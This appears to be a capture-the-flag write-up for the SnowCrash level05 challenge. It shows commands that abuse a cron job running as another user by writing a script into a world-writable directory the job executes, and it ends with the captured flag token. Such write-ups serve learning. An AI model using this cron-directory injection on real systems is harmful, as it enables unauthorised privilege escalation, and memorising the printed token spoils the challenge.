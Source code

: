 ```find / -name $USER 2>/dev/null -exec cat {} \;```

	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

This cron task executes the script every two minutes.

cat /usr/sbin/openarenaserver

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

```
ls -la /usr/sbin/openarenaserver 
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

We have write permissions inside opt/openarenaserver folder!!!!

lets insert a command int /opt/openarenaserver so that getflag is executed as user flag05:

```
echo 'getflag > /dev/shm/flag' > /opt/openarenaserver/script.sh
```
I forgot to chmod
```
chmod a+x /opt/openarenaserver/script.sh
```
wait for two minutes and:

level05@SnowCrash:/opt/openarenaserver$ cat /dev/shm/flag
```Check flag.Here is your token : viuaaale9huek52boumoomioc```
:D
